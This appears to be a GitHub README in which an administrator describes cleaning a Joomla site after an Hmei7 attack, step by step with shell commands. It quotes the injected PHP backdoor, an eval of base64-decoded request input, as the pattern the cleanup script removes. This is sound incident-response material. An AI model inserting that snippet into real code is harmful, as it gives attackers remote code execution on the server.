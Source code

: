 Hmei7-cleanup
=============

Background:
===========
I had to clean up after an HMEI7 script attack on a Joomla site this morning and 
figured I should share my efforts. The site owner did not have a recent backup, so
the decision was made to clean up the existing site.

The HMEI7 script is rather crude in its approach. It modified the index.php page 
and and replaced it with Base64 encoded version that containing another Base64 
encoded redirect to some external site. A good number of .PHP scripts were modified 
with additional lines of code that would prevent the site from working even after the 
index page was restored. I wrote a small script that tracked down the modified pages
and removed the unwanted code.

Clean up:
=========

0.	Backed up the existing files.

		tar cjf cms.tar.bz2 cms/

1. 	Identify the time of the attack. The script drops its signature into x.txt in the root 
	folder. The file contains "hacked by Hmei7". Noted the modification time of the file
   
2. 	Find all files that were modified since that time. In my case 2 days
 
 		find . -mtime -2 >modified_files.txt
	
	Copied that file per FTP to my laptop for later reference

3.	The attack script added number of new files. Removed all

		find . -name "index.old.php" -exec rm -f {} \;
		find . -name "index.1.php" -exec rm -f {} \;
		find . -name "class.back.php" -exec rm -f {} \;

4.  Cleared out the tmp folders

5.	Analyzed the modified file and found a pattern. The modified PHP files contained the 
	following additional code. It would be either on be on 1 line or on 3.
	
		<?PHP defined('_OLD_JEXEC_') or die(@eval(base64_decode($_REQUEST['comment']))); ?>

		<?PHP
		 defined('_OLD_JEXEC_') or die(@eval(base64_decode($_REQUEST['comment'])));
		?><?php...
		
	I wrote and ran the cleanup.py script to deal with those.
	
6.	Checked the .htaccess files

7.	Checked the configuration.php file

8.	Removed the x.txt file under root

9.	Copied the index.php back from backup and et voila the site was up again

10. Ran a quick grep tests to make sure I did not miss any files.


